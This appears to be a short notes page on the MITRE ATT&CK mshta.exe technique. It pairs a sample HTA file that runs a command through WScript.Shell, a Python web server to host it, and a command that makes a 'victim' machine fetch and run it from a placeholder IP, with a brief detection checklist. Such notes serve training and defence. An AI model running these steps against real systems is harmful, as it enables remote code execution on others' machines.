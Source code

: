 # [MSHTA.exe](https://attack.mitre.org/techniques/T1218/005/)

## Exploit Syntax:


1. Create an hta file with the following contents and save it in your malware directory: 

```VBScript
<!DOCTYPE html>
<html lang-"en">
<head>
  <title>This is a bad HTA file</title>

  <HTA:APPLICATION
    APPLICATIONNAME = "Bad HTA File"
  />

  <script language = "VBScript">
    Dim com
    Set com = CreateObject("WScript.Shell")
    com.run "cmd.exe /C mspaint.exe"
    set com = Nothing
  </script>
</head>
```

2. Start a simple http server with Python
```Bash
python3 -m http.server 6789
```
3. On the victim machine, likely with a beacon run the following:
```powershell
sharpps mshta http://<webserverIP>:6789/<nameofHTAfile>
```


## Detection Technique

* Investigate any instances of mshta.exe, if it is common, investigate mshta.exe interacting with the compromised machine itself.
    * process.name: mshta.exe
    * Network Connection: Outbound
    * Event.Action: Process Create
    * Event.Type: start, process start
    * Winlog.task: File Creation


## Resources 
* https://redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/
* https://lolbas-project.github.io/lolbas/Binaries/Mshta/
